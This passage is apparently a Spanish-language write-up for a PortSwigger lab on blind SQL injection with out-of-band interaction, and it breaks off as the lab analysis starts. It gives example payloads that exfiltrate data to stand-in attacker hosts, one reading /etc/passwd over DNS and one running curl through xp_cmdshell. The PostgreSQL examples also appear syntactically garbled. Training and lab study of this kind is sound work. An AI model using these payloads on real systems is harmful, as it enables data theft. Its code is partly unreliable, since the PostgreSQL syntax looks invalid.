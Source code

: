 ```yaml
---
title: "15 Blind SQL injection with out-of-band interaction"
collection: publications
category: portswigger
permalink: /publications/15_Blind SQL injection with out-of-band interaction
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL para provocar una búsqueda DNS a Burp Collaborator.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out-of-band interaction'
---
```


# Explicación de este tipo de ataque

Blind SQL Injection con Interacción Out-of-Band (OOB) es una técnica avanzada de inyección SQL que permite exfiltrar datos de una base de datos a través de canales secundarios, en lugar de depender de la respuesta directa de la aplicación web. Esta técnica se utiliza cuando:

* La respuesta de la aplicación no refleja directamente los resultados de la consulta SQL.
* No se pueden usar demoras basadas en tiempo (time-based blind SQLi).

En estos casos, puedes enviar cargas útiles que generen solicitudes hacia servicios externos (como un servidor controlado por el atacante) para confirmar que la inyección SQL ha sido exitosa o para extraer información.

# ¿Cómo funciona?

En lugar de buscar una respuesta directa o medir tiempos de demora, se aprovechan funciones que permiten realizar interacciones de red o de sistema operativo desde la base de datos hacia un recurso externo. Estas interacciones pueden incluir:

* Realizar una solicitud HTTP/DNS hacia un servidor externo controlado por el atacante.
* Usar comandos del sistema operativo (si la base de datos permite su ejecución) para interactuar con servicios externos.

# Casos comunes de interacción Out-of-Band

## 1. Exfiltración DNS
Se utilizan funciones de la base de datos para realizar una consulta DNS hacia un servidor controlado por el atacante. El nombre de dominio puede codificar datos exfiltrados, como nombres de tablas, columnas o datos específicos.

Ejemplo en PostgreSQL:

```sql
' || (SELECT extract(dns FROM pg_read_file('/etc/passwd') INTO '[your-server].attacker.com'))--
```

En este caso:

* La carga útil fuerza a la base de datos a realizar una consulta DNS hacia un servidor del atacante `(your-server.attacker.com)`.
* El atacante puede capturar esta interacción en su servidor DNS y decodificar los datos exfiltrados.

## 2. Uso de solicitudes HTTP

Algunas bases de datos permiten realizar solicitudes HTTP. Estas solicitudes se pueden usar para enviar datos al atacante.

Ejemplo en Microsoft SQL Server `(usando xp_cmdshell)`:

```sql
'; exec xp_cmdshell 'curl http://attacker.com?data=(SELECT TOP 1 name FROM sysobjects WHERE xtype=''U'')'; --
```

En este caso:

* Se usa `xp_cmdshell` para ejecutar un comando del sistema operativo.
* `curl` realiza una solicitud HTTP hacia el servidor del atacante con el primer nombre de tabla.

## Registros DNS o HTTP dinámicos

En algunos casos, los datos pueden ser exfiltrados directamente como parte del nombre del dominio o parámetros HTTP. Por ejemplo:

Si intentas extraer el nombre de una tabla llamada `users`:

```sql
' || (SELECT pg_sleep(0) WHERE table_name='users' INTO '[users.attacker.com]')--
```

# Beneficios de la interacción Out-of-Band
* No requiere respuesta directa: Es útil cuando las respuestas de la aplicación no reflejan los resultados de la consulta SQL.
* Bypass de restricciones: Puede eludir restricciones en la aplicación o WAFs que bloqueen consultas SQL convencionales.
* Exfiltración indirecta: Permite extraer datos incluso si no se muestran directamente en la aplicación.

# Limitaciones
*Requiere acceso a funciones específicas: Como consultas DNS, HTTP o comandos del sistema operativo, que pueden estar deshabilitadas por configuraciones de seguridad.
*Visibilidad: Las interacciones de red hacia dominios externos pueden ser detectadas por sistemas de monitoreo (IDS/IPS).

![logo]({{site.url}}/images/SQLi/sqli-15/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-15/descripcion.png)

## Objetivo del laboratorio

Explotar una vulnerabilidad SQLi y provocar una busqueda DNS.

## Analisis del campo vulnerable